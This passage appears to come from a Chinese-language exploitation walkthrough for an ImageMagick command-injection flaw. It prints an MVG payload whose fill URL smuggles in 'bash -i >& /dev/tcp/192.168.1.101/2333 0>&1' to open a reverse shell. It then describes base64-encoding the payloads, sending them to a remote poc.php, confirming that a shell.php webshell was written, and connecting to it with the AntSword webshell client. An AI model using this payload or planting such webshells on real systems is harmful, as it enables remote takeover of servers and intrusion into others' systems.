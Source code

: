 - 反弹 shell:
    ```bash
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/1.jpg"|bash -i >& /dev/tcp/192.168.1.101/2333 0>&1")'
    pop graphic-context
    ```

将上述两个 `Exp` 经过 `base64 编码`后发送到远程 `poc.php`，querystring 的 key 为 img。

![](img/7.png)

发送后发现命令执行成功，生成了对应的shell.php

![](img/8.png)

使用蚁剑连接：

![](img/9.png)